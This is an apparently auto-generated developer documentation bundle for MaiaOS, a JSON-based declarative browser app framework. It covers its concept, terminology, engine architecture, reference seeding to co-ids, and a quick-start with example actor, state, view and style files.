

# MaiaOS Documentation for Developers

**Auto-generated:** 2026-01-29T15:16:27.216Z
**Purpose:** Complete context for LLM agents working with MaiaOS

---

# CONCEPT

*Source: getting-started/01_concept.md*

# MaiaOS Concept

**Version:** 0.4  
**Last Updated:** January 2026

## What is MaiaOS?

MaiaOS is a **100% runtime-based, AI-LLM native platform** for building AI-composable applications. It's a declarative operating system where everything is defined in JSON, executed by engines, and orchestrated by AI agents.

## Core Philosophy

### Pure Declarative Runtime

**Everything is JSON:**
- No JavaScript in your app code
- No compiled bundles
- No build steps
- Pure `.maia` files loaded at runtime

**Example Actor:**
```json
{
  "$type": "actor",
  "id": "actor_todo_001",
  "contextRef": "todo",
  "stateRef": "todo",
  "viewRef": "todo"
}
```

That's it. No classes, no functions, no imports. Just references.

### AI-LLM Native

**Built for AI Orchestration:**
- LLMs can read and generate `.maia` files natively (they're just JSON)
- Skills provide AI-readable interface specifications
- State machines are AI-compatible event flows
- Tools are defined with JSON schemas (LLM-friendly)

**Why This Matters:**
- AI agents can build entire apps by generating `.maia` files
- No code generation → No syntax errors
- LLMs understand the structure perfectly
- Agents can modify apps at runtime

### 100% Runtime-Based

**No Build Process:**
```
Traditional:  Write Code → Compile → Bundle → Deploy → Run
MaiaOS:       Write .maia → Run
```

**Hot Runtime Reload Everything:**
- Change a view → Instant update
- Modify state machine → Instant update
- Update styles → Instant update
- No webpack, no vite, no build tools

**How It Works:**
1. Browser loads `o/kernel.js` (single entry point)
2. Kernel initializes engines (Actor, View, State, Tool, DB, Subscription, etc.)
3. Kernel loads modules (db, core, dragdrop, interface)
4. Kernel seeds database with configs, schemas, and tool definitions
5. Kernel loads `.maia` files via `fetch()` or database queries
6. Engines interpret and execute
7. Shadow DOM renders isolated UI
8. Done!

## Three-Layer Architecture

### 1. Definition Layer (What to Do)

**Pure JSON definitions:**
- `actor.maia` - Component identity and references
- `context.maia` - Initial runtime data
- `state.maia` - Behavior flow (state machine)
- `view.maia` - UI structure
- `style.maia` - Appearance
- `skill.maia` - AI agent interface

**No logic, just configuration.**

### 2. Execution Layer (How to Do It)

**JavaScript engines interpret definitions:**
- `ActorEngine` - Orchestrates actors
- `StateEngine` - Executes state machines
- `ViewEngine` - Renders views
- `ToolEngine` - Executes actions
- `StyleEngine` - Compiles styles
- `DBEngine` - Unified database operations (query, create, update, delete, toggle)
- `SubscriptionEngine` - Context-driven reactive subscriptions
- `MessageQueue` - Actor-to-actor communication

**Logic lives here, not in your app.**

### 3. Intelligence Layer (Why & When to Do It)

**AI agents orchestrate via skills:**
- Skills describe actor capabilities
- LLMs read skills to understand what's possible
- Agents generate events based on user intent
- System executes via state machines

**AI decides, engines execute.**

## Why MaiaOS?

### For Vibecreators (App Builders)

✅ **No JavaScript Required** - Pure JSON definitions  
✅ **Instant Hot Reload** - No build process  
✅ **AI-Assisted Development** - LLMs understand `.maia` files  
✅ **Component Isolation** - Shadow DOM per actor  
✅ **Declarative Everything** - Views, state, styles  

### For AI Agents

✅ **Native JSON** - No code generation needed  
✅ **Schema-Defined** - Every tool has JSON schema  
✅ **Discoverable** - Skills describe capabilities  
✅ **Composable** - Mix and match actors  
✅ **Predictable** - State machines are explicit  

### For Developers (Core Contributors)

✅ **Modular Architecture** - Pluggable engines  
✅ **Schema-Agnostic Tools** - Generic CRUD  
✅ **Clean Separation** - Definition vs. execution  
✅ **Extensible** - Add engines, tools, modules  
✅ **Type-Safe** - JSON schemas validate everything  

## Real-World Example

**Traditional React Todo:**
```jsx
// TodoApp.jsx (100+ lines of JavaScript)
import React, { useState } from 'react';
import './TodoApp.css';

function TodoApp() {
  const [todos, setTodos] = useState([]);
  const [input, setInput] = useState('');
  
  const addTodo = () => {
    setTodos([...todos, { id: Date.now(), text: input, done: false }]);
    setInput('');
  };
  
  // ... more code ...
}
```

**MaiaOS Todo:**
```json
// todo.actor.maia (14 lines of JSON)
{
  "$type": "actor",
  "contextRef": "todo",
  "stateRef": "todo",
  "viewRef": "todo"
}
```

That's the entire actor. Context, state, and view are separate files. No JavaScript. No build. Just JSON.

## Service/UI Actor Architecture

MaiaOS uses a **service actor / UI actor** pattern for building applications:

**Service Actors** (orchestration):
- Entry point for every vibe
- Handle business logic and data management
- Coordinate between UI actors
- Minimal or no view (only render child actors)

**UI Actors** (presentation):
- Render user interfaces
- Handle user interactions
- Receive data/configurations from service actors
- Send generic events to service actors

**Default Pattern:**
```
Vibe → Service Actor → Composite Actor → UI Actors
```

This ensures clean separation of concerns and scalable architecture. See [Actors Documentation](../vibecreators/02-actors.md#default-vibe-pattern-service--composite--ui) for details.

## Key Differentiators

### vs. Traditional Frameworks (React, Vue, Svelte)

| Feature | Traditional | MaiaOS |
|---------|-------------|--------|
| Language | JavaScript/TypeScript | JSON |
| Build Process | Required | None |
| Hot Reload | Via bundler | Native |
| AI Generation | Code (error-prone) | JSON (perfect) |
| Component Isolation | CSS Modules | Shadow DOM |
| State Management | Library (Redux, etc.) | Built-in (State Machines) |

### vs. Low-Code Platforms (Bubble, Webflow)

| Feature | Low-Code | MaiaOS |
|---------|----------|--------|
| Editing | Visual GUI | Text (`.maia` files) |
| Version Control | Proprietary | Git |
| AI Integration | Limited | Native |
| Extensibility | Plugins | Engines + Tools |
| Lock-in | Platform | Open source |

### vs. Backend Frameworks (Rails, Django)

MaiaOS is **frontend-first** but with backend patterns:
- State machines (like backend workflows)
- Tools (like backend services)
- Actors (like backend models)
- But all in the browser, no server required

## The MaiaOS Promise

> **Build AI-native applications with zero JavaScript, zero build process, and 100% runtime flexibility.**

**What This Means:**
1. **Vibecreators** define apps in JSON
2. **Engines** execute definitions
3. **AI Agents** orchestrate via skills
4. **Users** get instant, reactive UIs

**No compilation. No bundling. No build tools. Just pure, declarative, AI-native applications.**

## Next Steps

- [Terminology](./02_terminology.md) - Understand the key concepts
- [Architecture](./03_architecture.md) - Deep dive into system design
- [Installation](./04_install.md) - Get started building

---

# TERMINOLOGY

*Source: getting-started/02_terminology.md*

# MaiaOS Terminology

**Quick reference glossary of all MaiaOS concepts.**

## Core Concepts

### MaiaOS

The operating system itself. A runtime-based, AI-native platform for building declarative applications. Think of it as "an OS for apps" that runs in the browser.

### Kernel

The single entry point (`o/kernel.js`). Boots the system, loads modules, initializes engines, and creates actors. One file to rule them all.

### MaiaScript

The JSON-based DSL (Domain Specific Language) for defining actors, views, states, styles, and tools. Pure declarative syntax with expressions like `$context`, `$$item`, `@inputValue`.

---

## Definition Layer (Declarative)

### Actor

A pure declarative specification (`.actor.maia`) that references other components. Contains zero logic - just IDs and references. Think: "component configuration file."

### Context

Runtime data for an actor (`.context.maia`). All state lives here: collections, UI state, form values, etc. Can be inline or separate file.

### State Machine

Behavior flow definition (`.state.maia`). XState-like state machine with states, transitions, guards, and actions. Defines WHAT happens WHEN.

### View

UI structure definition (`.view.maia`). Declarative DOM tree with expressions, loops, conditionals, and event handlers. Renders to Shadow DOM.

### Style

Appearance definition (`.style.maia`). Design tokens + component styles. Compiles to CSS and injects into Shadow DOM.

**Types:**

- **Brand** (`brand.style.maia`) - Shared design system
- **Local** (`actor.style.maia`) - Actor-specific overrides

### Skill

AI agent interface specification (`.skill.maia`). Describes actor capabilities, events, context schema, and usage patterns for LLM orchestration.

---

## Execution Layer (Imperative)

### Engine

JavaScript execution machinery that interprets definitions. Engines contain all the logic - definitions contain none.

**Core Engines:**

- **ActorEngine** - Orchestrates actors, manages lifecycle
- **StateEngine** - Interprets state machines, executes transitions
- **ViewEngine** - Renders views to Shadow DOM
- **ToolEngine** - Executes tool actions
- **StyleEngine** - Compiles styles to CSS
- **DBEngine** - Unified database operation engine (query, create, update, delete, toggle, seed)
- **SubscriptionEngine** - Context-driven reactive subscriptions
- **MessageQueue** - Actor-to-actor message passing
- **ModuleRegistry** - Manages dynamic module loading
- **MaiaScriptEvaluator** - Evaluates DSL expressions

### Tool

An executable function (`.tool.js` + `.tool.maia`). The ONLY place imperative code lives. Tools mutate actor context or execute operations based on payloads.

**Structure:**

- `.tool.maia` - JSON schema (AI-compatible metadata)
- `.tool.js` - JavaScript function (execution logic)

### Module

A collection of related tools (`.module.js`). Modules register tools with the ToolEngine at boot time.

**Built-in Modules:**

- `db` - Database operations (unified API: `@db`)
- `core` - UI utilities (modals, focus, preventDefault)
- `dragdrop` - Drag-and-drop handlers
- `interface` - Interface validation

### Module Registry

Central plugin system for dynamic module loading. Manages module lifecycle and tool registration.

---

## Intelligence Layer (AI Orchestration)

### Vibecreator

A person who builds MaiaOS applications. Writes `.maia` files, composes actors, defines behaviors. No JavaScript required.

### Agent / LLM

AI assistant (ChatGPT, Claude, Cursor, etc.) that reads skills and generates events. Orchestrates actors based on user intent.

### Skill Engine

(v0.5) Engine that manages skill discovery and interpretation for AI agents. Enables LLM-driven app orchestration.

---

## Data Flow Concepts

### Event

A message sent to a state machine to trigger a transition. Events have a name and optional payload.

### Payload

Data passed with an event. Can contain expressions that are evaluated at runtime.

**Expression Types:**

- `$field` - Context reference (`actor.context.field`)
- `$$field` - Item reference (in loops: `item.field`)
- `@inputValue` - DOM value reference (`input.value`)

### Guard

A condition that determines if a transition should occur. Evaluated before state change.

### Transition

Moving from one state to another in response to an event. Can have guards and actions.

### Action

A tool invocation or context update. Executed during state transitions (entry/exit/inline).

---

## UI Concepts

### Shadow DOM

Browser-native encapsulation. Each actor renders into its own shadow root with isolated styles and DOM.

**Benefits:**

- Style isolation (no CSS leakage)
- DOM encapsulation
- Multiple instances without conflicts

### Constructable Stylesheet

Modern CSS API for efficient style sharing. Brand styles compiled once, adopted by all actors.

### Component

In MaiaOS, "component" = "actor". Reusable, isolated, self-contained unit with state, view, and behavior.

---

## Architectural Patterns

### Schema-Agnostic

Database operations don't know about specific data types. They work with generic `schema` (co-ids) and `data` parameters. Same tool, different schema. Zero hardcoded domain knowledge. All schemas are co-ids (CoJSON IDs).

### Message Passing

Actors communicate asynchronously via inboxes and subscriptions. Watermark pattern for processing.

**Properties:**

- `inbox` - Message queue
- `subscriptions` - Actors to receive messages from
- `inboxWatermark` - Last processed message index

### Modular Architecture

Everything is a plugin. Engines are pluggable, tools are modular, modules are dynamic.

---

## File Conventions

### `.maia` Extension

All MaiaOS definition files use `.maia` extension. JSON format with `$type` discriminator.

**Types:**

- `actor.maia` - Actor definition
- `context.maia` - Runtime data
- `state.maia` - State machine
- `view.maia` - UI structure
- `style.maia` - Styling
- `skill.maia` - AI interface
- `tool.maia` - Tool metadata

### Naming Pattern

`{name}.{type}.maia`

**Examples:**

- `todo.actor.maia`
- `todo.context.maia`
- `todo.state.maia`
- `brand.style.maia`

### CoMap ID (Future)

Fake IDs used for Jazz integration. Currently maps to filenames, will map to Jazz CoMaps in v0.5.

---

## Development Concepts

### Hot Reload

Automatic browser refresh on file changes. No build process, instant updates.

### Watch Mode

Scripts that monitor file changes and regenerate outputs (e.g., LLM docs).

### Vibecreators Docs

User-facing documentation for app builders. Located in `docs/vibecreators/`.

### Developers Docs

Technical documentation for core contributors. Located in `docs/developers/`.

### LLM Docs

Auto-generated, context-optimized documentation for AI agents. Located in `docs/agents/`.

---

## Quick Reference

| Term      | Type       | Purpose                  |
| --------- | ---------- | ------------------------ |
| **Actor** | Definition | Component configuration |
| **Context** | Definition | Runtime data |
| **State** | Definition | Behavior flow |
| **View** | Definition | UI structure |
| **Style** | Definition | Appearance |
| **Engine** | Execution | Interprets definitions |
| **Tool** | Execution | Executes actions |
| **Module** | Execution | Groups tools |
| **Event** | Data Flow | Triggers transitions |
| **Payload** | Data Flow | Event data |
| **Guard** | Data Flow | Transition condition |

---

## Next Steps

- [Architecture](./03_architecture.md) - System design deep dive
- [Installation](./04_install.md) - Get started building

---

# ARCHITECTURE

*Source: getting-started/03_architecture.md*

# MaiaOS Architecture

**Deep dive into system design and data flow.**

## System Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                         MaiaOS Kernel                        │
│                    (Single Entry Point)                      │
│                      o/kernel.js                             │
└─────────────────────────────────────────────────────────────┘
                              │
        ┌─────────────────────┼─────────────────────┐
        │                     │                     │
        ▼                     ▼                     ▼
┌─────────────┐      ┌─────────────┐      ┌─────────────┐
│   Module    │      │   Engine    │      │    Actor    │
│  Registry   │◄─────│  Layer      │◄─────│   Layer     │
└─────────────┘      └─────────────┘      └─────────────┘
        │                     │                     │
        │              ┌──────┴──────┐             │
        │              │             │             │
        ▼              ▼             ▼             ▼
┌─────────────┐  ┌──────────┐  ┌──────────┐  ┌──────────┐
│   Modules   │  │  State   │  │   View   │  │   Tool   │
│ (db, core,  │  │  Engine  │  │  Engine  │  │  Engine  │
│  dragdrop,  │  └──────────┘  └──────────┘  └──────────┘
│  interface)  │
└─────────────┘
        │
        ▼
┌─────────────────────────────────────────────────────────────┐
│                    Additional Engines                        │
│  DBEngine | SubscriptionEngine | MessageQueue              │
│  ActorEngine | StyleEngine | MaiaScriptEvaluator            │
└─────────────────────────────────────────────────────────────┘
```

## Three Layers

### 1. Definition Layer (Declarative)

**Pure JSON definitions - zero logic:**

**Actors** - Component configuration:
```json
{
  "$schema": "@schema/actor",
  "$id": "@actor/todo",
  "role": "todo-list",
  "context": "@context/todo",
  "state": "@state/todo",
  "view": "@view/todo",
  "interface": "@interface/todo",
  "brand": "@style/brand",        // ← Shared design system (required)
  "style": "@style/todo",         // ← Actor-specific overrides (optional)
  "subscriptions": "@subscriptions/todo",
  "inbox": "@inbox/todo",
  "inboxWatermark": 0
}
```

**Note:** 
- `brand` is **required** - shared design system (tokens, components) used by all actors
- `style` is **optional** - actor-specific style overrides that merge with brand
- StyleEngine merges brand + style at runtime (brand first, then style overrides)
- All references (`context`, `view`, `state`, `interface`, `brand`, `style`, `subscriptions`, `inbox`) use co-id references (like `@context/todo`) that are transformed to actual co-ids (`co_z...`) during seeding
- The `$schema` and `$id` properties also use schema/instance references that get transformed

**Context** - Runtime data:
```json
{
  "$schema": "@schema/context",
  "$id": "@context/todo",
  "todos": [],
  "newTodoText": "",
  "viewMode": "list"
}
```

**Note:** Context files use `$schema` and `$id` with schema/instance references that get transformed to co-ids during seeding.

**State** - Behavior flow:
```json
{
  "$schema": "@schema/state",
  "$id": "@state/todo",
  "initial": "idle",
  "states": {
    "idle": {
      "on": {
        "CREATE_TODO": "creating"
      }
    }
  }
}
```

**Note:** State machine files use `$schema` and `$id` with schema/instance references. Tool payloads in state machines reference co-ids (transformed during seeding).

**View** - UI structure:
```json
{
  "$schema": "@schema/view",
  "$id": "@view/todo",
  "root": {
    "tag": "div",
    "text": "$title"
  }
}
```

**Note:** View files use `$schema` and `$id` with schema/instance references.

**Style** - Appearance (Brand or Local):
```json
{
  "$schema": "@schema/style",
  "$id": "@style/brand",
  "tokens": {
    "colors": {
      "primary": "#3b82f6"
    }
  },
  "components": {
    "button": {
      "padding": "0.5rem 1rem",
      "background": "{colors.primary}"
    }
  }
}
```

**Note:** 
- **Brand styles** (`@style/brand`) - Shared design system with tokens and components, referenced via `brand` property
- **Local styles** (`@style/todo`) - Actor-specific overrides, referenced via `style` property (optional)
- StyleEngine merges brand + local styles at runtime (brand first, local overrides)
- Style files use `$schema` and `$id` with schema/instance references

**Interface** - Message contract (replaces skill):
```json
{
  "$schema": "@schema/interface",
  "$id": "@interface/todo",
  "messages": {
    "CREATE_TODO": {
      "description": "Creates a new todo item",
      "payload": {
        "text": { "type": "string", "required": true }
      }
    }
  }
}
```

**Note:** Interface files define message contracts between actors. They use `$schema` and `$id` with schema/instance references. Skills (AI agent interface) are planned for v0.5.

### 2. Execution Layer (Imperative)

**Engines** - JavaScript execution machinery:

- **ActorEngine** - Orchestrates actors, manages lifecycle
- **StateEngine** - Interprets state machines, executes transitions
- **ViewEngine** - Renders views to Shadow DOM
- **ToolEngine** - Executes tool actions
- **StyleEngine** - Compiles styles to CSS
- **DBEngine** - Unified database operation engine (query, create, update, delete, toggle, seed)
- **SubscriptionEngine** - Context-driven reactive subscriptions
- **MessageQueue** - Actor-to-actor message passing
- **ModuleRegistry** - Manages dynamic module loading
- **MaiaScriptEvaluator** - Evaluates DSL expressions

**Tools** - Executable functions:

```javascript
// create.tool.js
export default {
  async execute(actor, payload) {
    const { schema, data } = payload;
    const entity = { id: Date.now().toString(), ...data };
    actor.context[schema].push(entity);
  }
};
```

**Modules** - Tool collections:

**Built-in Modules:**
- **db** - Database operations (replaces mutation module)
- **core** - UI utilities (modals, focus, preventDefault)
- **dragdrop** - Drag-and-drop handlers
- **interface** - Interface validation

```javascript
// db.module.js
export class DBModule {
  static async register(registry, toolEngine) {
    await toolEngine.registerTool('db', '@db');
  }
}
```

### 3. Intelligence Layer (AI Orchestration)

**Skills** - AI-readable interface specifications:

```json
{
  "stateEvents": {
    "CREATE_TODO": {
      "description": "Creates a new todo item",
      "payload": {
        "text": { "type": "string", "required": true }
      },
      "when": ["User says: 'add todo'", "User says: 'create task'"]
    }
  },
  "queryableContext": {
    "todos": {
      "type": "array",
      "description": "All todo items"
    }
  }
}
```

## Seeding & Reference Transformation

During vibe loading, all human-readable references are transformed to co-ids:

**Before Seeding (Human-Readable):**
```json
{
  "$schema": "@schema/actor",
  "$id": "@actor/todo",
  "context": "@context/todo",
  "view": "@view/todo",
  "state": "@state/todo"
}
```

**After Seeding (Co-IDs):**
```json
{
  "$schema": "co_z9h5nwiNynbxnC3nTwPMPkrVaMQ",
  "$id": "co_z8k4m2pLqRsTvWxYzAbCdEfGhIjKl",
  "context": "co_z7j3l1nKoQtPuVwXyZaBcDeFgHiJk",
  "view": "co_z6i2k0mJnPsOuTwVxYaBcDeFgHiJk",
  "state": "co_z5h1j9lIoNrQsTuVwXyZaBcDeFgHiJk"
}
```

**Transformation Process:**
1. Schema transformer maps `@schema/*` → co-ids
2. Instance transformer maps `@actor/*`, `@context/*`, `@view/*`, etc. → co-ids
3. All references in actors, state machines, and tool payloads are transformed
4. Co-ids are stored in database, human-readable refs remain in source `.maia` files

**Why This Matters:**
- Source files remain human-readable (`@actor/todo` is clearer than `co_z8k4m2pLqRsTvWxYzAbCdEfGhIjKl`)
- Runtime uses co-ids for efficient lookups and CoJSON integration
- Transformation happens automatically during seeding

## Data Flow

### User Interaction Flow

```
User Input (click, type, etc.)
  ↓
ViewEngine captures event
  ↓
ViewEngine evaluates payload ($ and $$)
  ↓
StateEngine.send(EVENT_NAME, payload)
  ↓
StateEngine finds current state
  ↓
StateEngine checks event handlers
  ↓
StateEngine evaluates guard (if present)
  ↓
Guard passes → Continue | Guard fails → Ignore
  ↓
StateEngine executes exit actions
  ↓
StateEngine transitions to target state
  ↓
StateEngine executes entry actions
  ↓
ToolEngine.execute(toolName, actor, payload)
  ↓
Tool mutates actor.context
  ↓
Tool succeeds → SUCCESS event | Tool fails → ERROR event
  ↓
StateEngine handles SUCCESS/ERROR
  ↓
ActorEngine.rerender(actor)
  ↓
ViewEngine re-renders Shadow DOM
  ↓
User sees updated UI
```

### AI Agent Interaction Flow

```
LLM Agent receives user intent
  ↓
Agent queries SkillEngine for available actors
  ↓
Agent reads skill definitions
  ↓
Agent matches user intent to capabilities
  ↓
Agent generates appropriate event + payload
  ↓
Agent sends event to actor via StateEngine
  ↓
[Same as User Interaction from StateEngine onward]
```

## File Organization

```
libs/maia-script/src/
├── o/                          # Operating System Layer
│   ├── kernel.js               # Single entry point
│   ├── engines/                # Execution engines
│   │   ├── actor-engine/
│   │   │   └── actor.engine.js
│   │   ├── state-engine/
│   │   │   └── state.engine.js
│   │   ├── view-engine/
│   │   │   └── view.engine.js
│   │   ├── style-engine/
│   │   │   └── style.engine.js
│   │   ├── tool-engine/
│   │   │   └── tool.engine.js
│   │   ├── db-engine/         # Database operation engine
│   │   │   ├── db.engine.js
│   │   │   ├── backend/
│   │   │   │   └── indexeddb.js
│   │   │   └── operations/
│   │   │       ├── query.js
│   │   │       ├── create.js
│   │   │       ├── update.js
│   │   │       ├── delete.js
│   │   │       ├── toggle.js
│   │   │       └── seed.js
│   │   ├── subscription-engine/
│   │   │   └── subscription.engine.js
│   │   ├── message-queue/
│   │   │   └── message.queue.js
│   │   ├── ModuleRegistry.js
│   │   └── MaiaScriptEvaluator.js
│   ├── modules/                # Tool modules
│   │   ├── db.module.js        # Database operations
│   │   ├── core.module.js      # UI utilities
│   │   ├── dragdrop.module.js  # Drag-and-drop
│   │   └── interface.module.js # Interface validation
│   └── tools/                  # Tool implementations
│       ├── db/                 # Database tool (@db)
│       ├── core/               # UI utilities
│       ├── dragdrop/           # Drag-and-drop handlers
│       ├── context/            # Context manipulation
│       └── interface/          # Interface validation
│
├── index.html                  # App marketplace entry point
├── index.js                    # Main export file
│
└── libs/maia-vibes/src/        # Example applications
    └── todos/
        ├── index.html
        ├── manifest.vibe.maia
        └── [actor files...]
```

**Monorepo Structure:**
```
MaiaOS/
├── libs/
│   ├── maia-script/            # Core OS (kernel, engines, tools)
│   ├── maia-db/                # CoJSON layer (CRDT operations)
│   ├── maia-schemata/          # Schema validation
│   ├── maia-vibes/             # Example vibes/apps
│   ├── maia-self/              # Self-sovereign identity
│   ├── maia-voice/             # Voice integration
│   └── maia-brand/             # Branding/assets
└── services/                   # Application services
    ├── app/                    # Main application
    ├── website/                # Landing page
    └── wallet/                 # Auth service
```

## Key Architectural Patterns

### Service Actor / UI Actor Separation

MaiaOS follows a clear separation between **service actors** (orchestration) and **UI actors** (presentation):

**Service Actors:**
- Orchestrate data queries and mutations
- Manage application-level state
- Coordinate between UI actors via messages
- Typically have minimal or no view (only render child actors)

**UI Actors:**
- Render user interfaces
- Handle user interactions
- Receive query configurations from service actors
- Send generic UI events to service actors

**Default Vibe Pattern:**
```
Vibe Entry Point
  └── Service Actor (orchestrating, minimal view)
        └── Composite Actor (first UI actor, shared structure)
              └── UI Actors (leaf components)
```

This pattern ensures:
- ✅ Clear separation of concerns
- ✅ Scalable through composition
- ✅ Message-based communication
- ✅ Consistent architecture across vibes

See [Actors Documentation](../vibecreators/02-actors.md#default-vibe-pattern-service--composite--ui) for details.

### Schema-Agnostic Design

Database operations work with any schema via co-ids:

```javascript
@db { op: "create", schema: "co_z...", data: {...} }
@db { op: "update", schema: "co_z...", id: "co_z...", data: {...} }
@db { op: "delete", schema: "co_z...", id: "co_z..." }
@db { op: "toggle", schema: "co_z...", id: "co_z...", field: "done" }
```

Same tool, different schema. Zero hardcoded domain knowledge. All schemas are co-ids (CoJSON IDs) - no human-readable fallbacks.

### Modular Everything

- **Tools** grouped into modules (`@db`, `@core/*`, `@dragdrop/*`, `@interface/*`)
- **Modules** loaded dynamically at boot (db, core, dragdrop, interface)
- **Engines** pluggable (ActorEngine, ViewEngine, StateEngine, DBEngine, etc.)
- **Database** unified operation engine with swappable backends (IndexedDB, CoJSON CRDT)
- **Skills** describe capabilities without implementation

### Shadow DOM Isolation

Each actor renders into its own shadow root:

```html
<div id="actor-todo">
  #shadow-root (open)
    <style>/* Actor styles */</style>
    <div>/* Actor UI */</div>
</div>
```

**Benefits:**
- ✅ Style isolation (no CSS leakage)
- ✅ DOM encapsulation
- ✅ Multiple instances without conflicts

### Message Passing

Actors communicate asynchronously:

```javascript
// Send message
os.sendMessage('actor_todo_001', {
  type: 'notification',
  data: {text: 'Task completed!'}
});

// Subscribe to messages
actor.subscriptions = ['actor_calendar_001'];

// Process messages
actor.inbox = [...]; // Watermark pattern
```

## Design Principles

1. **Declarative Over Imperative** - Define what, not how
2. **Separation of Concerns** - Actors, engines, and skills are independent
3. **Schema Agnostic** - Tools work with any data model
4. **AI Composable** - Skills enable LLM orchestration
5. **Module Everything** - No hardcoded dependencies
6. **Single Entry Point** - kernel.js loads everything
7. **Shadow DOM Isolation** - Each actor is self-contained
8. **Message Passing** - Actors communicate via inboxes

## Version History

- **v0.1** - Basic actor/view/style system
- **v0.2** - Added state machines and tool system
- **v0.3** - Added message passing and AI tool definitions
- **v0.4** - **Current** - Unified database engine (DBEngine), subscription engine, modular architecture
- **v0.5** - **Planned** - Skills as AI agent interface, CoJSON integration

## Next Steps

- [Installation](./04_install.md) - Get started building
- [Vibecreators Docs](../vibecreators/) - Build applications
- [Developers Docs](../developers/) - Extend MaiaOS

---

# INSTALL

*Source: getting-started/04_install.md*

# Installation & Quick Start

**Get MaiaOS running in under 5 minutes.**

## Prerequisites

**Required:**
- Modern browser (Chrome, Firefox, Safari, Edge)
- Local web server (for ES modules)
- Bun (for development with hot reload)
- Git (for cloning the repository)

## Quick Start

### Clone the Repository

```bash
# Clone
git clone https://github.com/oMaiaCity/MaiaOS.git
cd MaiaOS

# Install dependencies (from root - installs for all workspaces)
bun install

# Start dev server (from root or specific service)
bun dev:app  # Main app service (port 4202)
# OR
cd libs/maia-script
bun dev  # MaiaScript dev server

# Open browser
open http://localhost:4202/  # or appropriate port
```

## File Structure

Create your first actor:

```
my-app/
├── index.html              # Entry point (see above)
├── todo.actor.maia         # Actor definition
├── todo.context.maia       # Runtime data
├── todo.state.maia         # State machine
├── todo.view.maia          # UI structure
└── brand.style.maia        # Design system
```

### Minimal Actor

**`todo.actor.maia`:**
```json
{
  "$type": "actor",
  "$id": "actor_todo_001",
  "id": "actor_todo_001",
  "contextRef": "todo",
  "stateRef": "todo",
  "viewRef": "todo",
  "styleRef": "brand"
}
```

**`todo.context.maia`:**
```json
{
  "$type": "context",
  "$id": "context_todo_001",
  "todos": [],
  "newTodoText": ""
}
```

**`todo.state.maia`:**
```json
{
  "$type": "state",
  "$id": "state_todo_001",
  "initial": "idle",
  "states": {
    "idle": {
      "on": {
        "CREATE_TODO": {
          "target": "creating",
          "guard": { "$ne": ["$newTodoText", ""] }
        }
      }
    },
    "creating": {
      "entry": {
        "tool": "@db",
        "payload": {
          "op": "create",
          "schema": "co_z...",
          "data": { "text": "$newTodoText", "done": false }
        }
      },
      "on": {
        "SUCCESS": "idle",
        "ERROR": "error"
      }
    },
    "error": {
      "on": {
        "RETRY": "idle"
      }
    }
  }
}
```

**Note:** The `schema` field must be a co-id (CoJSON ID like `co_z...`). Schema references are resolved during vibe loading/seeding.

**`todo.view.maia`:**
```json
{
  "$type": "view",
  "$id": "view_todo_001",
  "root": {
    "tag": "div",
    "attrs": { "class": "todo-app" },
    "children": [
      {
        "tag": "h1",
        "text": "My Todos"
      },
      {
        "tag": "input",
        "attrs": {
          "type": "text",
          "placeholder": "What needs to be done?"
        },
        "value": "$newTodoText",
        "$on": {
          "input": {
            "send": "UPDATE_INPUT",
            "payload": { "newTodoText": "@inputValue" }
          },
          "keydown": {
            "send": "CREATE_TODO",
            "key": "Enter"
          }
        }
      },
      {
        "tag": "button",
        "text": "Add",
        "$on": {
          "click": {
            "send": "CREATE_TODO"
          }
        }
      },
      {
        "tag": "ul",
        "$each": {
          "items": "$todos",
          "template": {
            "tag": "li",
            "text": "$$text"
          }
        }
      }
    ]
  }
}
```

**`brand.style.maia`:**
```json
{
  "$type": "brand.style",
  "$id": "brand_001",
  "tokens": {
    "colors": {
      "primary": "#3b82f6",
      "background": "#ffffff",
      "text": "#1f2937"
    },
    "spacing": {
      "sm": "0.5rem",
      "md": "1rem",
      "lg": "1.5rem"
    }
  },
  "components": {
    "todo-app": {
      "padding": "{spacing.lg}",
      "maxWidth": "600px",
      "margin": "0 auto"
    },
    "button": {
      "padding": "{spacing.sm} {spacing.md}",
      "background": "{colors.primary}",
      "color": "white",
      "border": "none",
      "borderRadius": "0.25rem",
      "cursor": "pointer"
    },
    "input": {
      "padding": "{spacing.sm}",
      "border": "1px solid #e5e7eb",
      "borderRadius": "0.25rem",
      "width": "100%"
    }
  }
}
```


## Next Steps

- [Vibecreators Docs](../02_creators/) - Learn to build apps
- [Examples](../../maia-vibes/src/todos/) - See complete working app
- [Developers Docs](../03_developers/) - Extend MaiaOS core

## Resources

- **Examples:** `libs/maia-vibes/src/todos/`
- **Kernel:** `libs/maia-script/src/o/kernel.js`
- **Engines:** `libs/maia-script/src/o/engines/`
- **Tools:** `libs/maia-script/src/o/tools/`
- **Modules:** `libs/maia-script/src/o/modules/`
- **Docs:** `libs/maia-docs/`

## Support

- GitHub Issues: [Report bugs](https://github.com/oMaiaCity/MaiaOS/issues)

---

